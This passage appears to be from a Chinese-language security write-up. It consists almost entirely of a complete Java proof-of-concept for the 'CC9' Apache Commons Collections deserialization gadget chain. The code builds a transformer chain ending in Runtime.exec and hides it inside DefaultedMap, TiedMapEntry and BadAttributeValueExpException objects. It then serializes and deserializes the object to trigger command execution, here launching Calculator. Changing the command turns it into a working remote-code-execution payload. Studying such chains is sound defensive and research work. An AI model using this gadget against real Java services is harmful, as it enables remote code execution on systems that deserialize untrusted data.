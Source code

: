 结合一些 CC5 可以构造出来完整的 gadget

```java
public class CC9 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, IllegalAccessException,
            InvocationTargetException, InstantiationException, IOException, NoSuchFieldException {
        Transformer[] realPoc  = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})};
        ChainedTransformer fakeChain = new ChainedTransformer(new Transformer[]{ new ConstantTransformer("random")});

        Map innerMap = new HashMap();
        DefaultedMap mapDemo = (DefaultedMap) DefaultedMap.decorate(innerMap, fakeChain);
        TiedMapEntry rceDemo = new TiedMapEntry(mapDemo, "random");
        BadAttributeValueExpException finaldemo = new BadAttributeValueExpException("random");
        Field valDemo = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        valDemo.setAccessible(true);
        valDemo.set(finaldemo, rceDemo);

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(fakeChain, realPoc);

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(finaldemo);
        oos.close();

        System.out.println(bos);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }
}
```
